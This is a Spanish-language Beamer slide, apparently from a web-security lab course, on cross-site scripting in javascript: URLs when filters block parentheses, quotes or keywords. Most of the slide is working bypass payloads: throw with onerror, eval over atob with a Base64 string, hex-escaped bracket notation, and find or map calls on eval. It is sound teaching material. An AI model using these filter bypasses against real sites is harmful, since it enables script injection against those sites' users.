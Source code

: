 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{XSS en javascript: con Caracteres Limitados}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Contexto (Labs 55-56)
  \item El payload queda dentro de un bloque javascript: con restricciones de caracteres.
  \item Filtro puede bloquear: paréntesis (), comillas, palabras como 'alert', 'eval'...
  \item Objetivo: ejecutar JS arbitrario con el conjunto de caracteres permitido.
  \item Técnica 1 --- throw + onerror (sin paréntesis)
  \item Cuando () están bloqueados:
  \item \cmd{javascript:throw onerror=alert,1337}
  \item $\rightarrow$ onerror se asigna a window.alert; throw lanza 1337 como mensaje
  \item \cmd{javascript:onerror=alert;throw 1}
  \item Técnica 2 --- eval + atob (sin comillas, payload en Base64)
  \item \cmd{btoa('alert(document.domain)') $\rightarrow$ YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==}
  \item \cmd{javascript:eval(atob`YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==`)}
  \item $\rightarrow$ Template literal permite llamar a atob sin paréntesis adicionales
  \item Técnica 3 --- bracket notation y hex escapes
  \item \cmd{javascript:window['alert'](1) $\leftarrow$ evita el nombre literal alert}
  \item \cmd{javascript:self['\textbackslash\{\}x61lert'](1) $\leftarrow$ hex escape dentro del nombre}
  \item \cmd{javascript:[1].find(alert) $\leftarrow$ pasa alert como referencia}
  \item \cmd{javascript:[1].map(eval,['alert(1)']) $\leftarrow$ map + eval}
  \item Combinar varias técnicas cuando hay múltiples restricciones simultáneas.
  \end{itemize}
\end{frame}
\end{document}
